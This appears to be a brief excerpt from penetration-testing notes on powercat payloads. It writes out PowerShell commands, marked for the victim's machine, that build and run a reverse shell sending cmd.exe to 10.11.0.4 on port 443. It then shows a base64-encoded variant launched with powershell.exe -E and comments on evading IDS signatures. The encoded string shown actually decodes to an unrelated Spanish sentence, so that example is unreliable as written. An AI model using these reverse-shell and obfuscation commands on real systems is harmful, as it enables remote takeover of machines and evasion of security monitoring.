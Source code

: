 ### Stand-Alone Payloads
```powershell
#Victim's machine
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverse.ps1
./reverse.ps1
#This script mightr be easily detected by IDS. It's very large, it has 300 lines of code and hardcoded strings that can be
#easily be used in signatures for malicious activity.
```

```powershell
#Victim's machine
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge> encodedreverse.ps1
powershell.exe -E U2luIGNvbm9jaW1pZW50bywgbGEgaGFiaWxpZGFkIG5vIHNlIHB1ZWRlIGVuZm9jYXIuIFNpbiBoYWJpbGlkYWQsIGxhIGZ1ZXJ6YSBubyBwdWVkZSBzZXIgZWplcmNpZGEgeSBzaW4gZnVlcnphLCBlbCBjb25vY2ltaWVudG8gbm8gcHVlZGUgc2VyIGFwbGljYWRvLg==
#This way we profit the PowerShell's ability to execute base64 encoded code. The -E flags allow us to execute encoded commands.
```


